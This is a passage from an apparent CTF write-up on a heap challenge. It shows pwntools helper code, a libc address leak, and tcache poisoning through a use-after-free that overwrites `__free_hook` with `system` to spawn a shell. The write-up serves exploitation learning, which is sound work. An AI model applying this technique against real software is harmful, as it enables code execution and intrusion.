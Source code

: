 ```py
    io.sendlineafter(b'>', b'3')
    io.sendlineafter(b'>', str(op).encode())
    io.sendlineafter(b'>', str(idx).encode())


def edit(op, idx, data):
    io.sendlineafter(b'>', b'4')
    io.sendlineafter(b'>', str(op).encode())
    io.sendlineafter(b'>', str(idx).encode())
    io.sendlineafter(b'>', data)

def law():
    io.sendlineafter(b'>', b'5')
    return io.recvline()[1:-1].split(b', ')
```

We can obtain the libc base address, `__free_hook`, and `system` by leaking via the `make_law` function:

```py
leak = law()
libc.address = int(leak[0], 16) - 0x1ecbe0
free_hook = libc.sym['__free_hook']
system = libc.sym['system']
log.success("Libc base address: %#x", libc.address)
log.success("Free hook address: %#x", free_hook)
log.success("System address: %#x", system)
```

Now we can perform tcache poisoning to place a chunk at the `__free_hook`. To achieve this, we need to modify the `fd` pointer of a freed tcache chunk. 
First, I will create 2 note chunks and free them. We can observe both chunks in the tcache bin:

![image](https://github.com/0xM4hm0ud/CTF-Writeups/assets/80924519/179ff179-c52c-477f-b313-e339723e426d)

Next, when creating a rule, it will retrieve a chunk from the tcache, obtain its pointer, and then free the buffer again. Since tcache operates in a LIFO (Last-in, First-out) manner, we gain control over the first chunk's `fd` and `bk` pointers:

![image](https://github.com/0xM4hm0ud/CTF-Writeups/assets/80924519/fc39b79d-6bf1-41fe-8d44-d75c09b8089b)

By editing the `fd` pointer of this chunk (due to the UAF), we can confirm that it points to `__free_hook`:

![image](https://github.com/0xM4hm0ud/CTF-Writeups/assets/80924519/a62b6abe-91c1-4596-a959-ac6401c14a4c)

Now, if we create 2 more notes, the second note will occupy the `__free_hook` address. 
Upon editing the second note to point to `system`, we can observe the change:

![image](https://github.com/0xM4hm0ud/CTF-Writeups/assets/80924519/3c10f2f2-d826-40a4-b285-1ab1ca2adc83)

Finally, if we free a chunk containing `/bin/sh`, it will spawn a shell. The complete solution script can be found [here](solve.py).

Upon running this on the remote server, we successfully obtain a shell and can read the flag:

![image](https://github.com/0xM4hm0ud/CTF-Writeups/assets/80924519/a8ee72ef-ff7d-4c8b-b615-40d54ce12cc3)


